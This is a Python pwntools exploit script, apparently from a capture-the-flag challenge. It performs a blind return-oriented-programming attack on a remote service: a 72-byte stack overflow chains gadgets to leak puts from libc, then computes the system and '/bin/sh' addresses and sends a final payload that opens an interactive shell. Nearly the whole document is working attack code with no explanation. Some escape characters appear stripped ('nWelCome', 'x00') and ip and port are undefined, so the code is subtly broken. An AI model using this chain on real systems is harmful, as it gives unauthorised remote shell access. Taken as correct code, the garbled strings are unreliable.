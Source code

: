 ```python
		
def leak_libc(r,size,stop_gadget,rdi_ret,puts_plt,puts_got):
	payload = ''
	payload += "A"*size
	payload += p64(rdi_ret)
	payload += p64(puts_got)
	payload += p64(puts_plt)
	payload += p64(stop_gadget)

	r.recvline()
	r.sendline(payload)
	leak_addr = r.recvuntil('nWelCome my friend,Do you know password?n',drop=True)
	leak_addr = u64(leak_addr.ljust(8,'x00'))
	return leak_addr

if __name__=="__main__": 
	
	#size = check_overflow()
	size = 72
	log.info('Overflow size: '+str(size))
	
	#stop_gadget = find_stop_gadget(size)
	stop_gadget = 0x4005c0
	log.info('Stop Gadget: '+str(hex(stop_gadget)))

	#brop_gadget = find_brop_gadget(size,stop_gadget)
	brop_gadget = 0x4007ba
	pop_rdi_ret = brop_gadget + 0x9
	log.info('RDI Gadget: '+str(hex(pop_rdi_ret)))
	
	#puts_plt = find_puts_addr(size,stop_gadget,pop_rdi_ret)
	puts_plt = 0x400555
	log.info('puts plt: '+str(hex(puts_plt)))

	#memory_dump(size,stop_gadget,pop_rdi_ret,puts_plt)
	puts_got = 0x601018
	log.info('puts got: '+str(hex(puts_got)))

	r = remote(ip,port,level='error')
	puts_libc_addr = leak_libc(r,size,stop_gadget,pop_rdi_ret,puts_plt,puts_got)
	log.info('puts libc addr: '+str(hex(puts_libc_addr)))
	
	lib = LibcSearcher('puts',puts_libc_addr)
	print(hex(lib.dump('puts')))
	libBase = puts_libc_addr - lib.dump('puts')
	system_addr = libBase + lib.dump('system')
	binsh_addr = libBase + lib.dump('str_bin_sh')

	log.info('libc base: '+str(hex(libBase)))
	log.info('system addr: '+str(hex(system_addr)))
	log.info('binsh addr: '+str(hex(binsh_addr)))
	
	payload = 'A'*size
	payload += p64(pop_rdi_ret)
	payload += p64(binsh_addr)
	payload += p64(system_addr)

	r.send(payload)
	r.interactive()
```
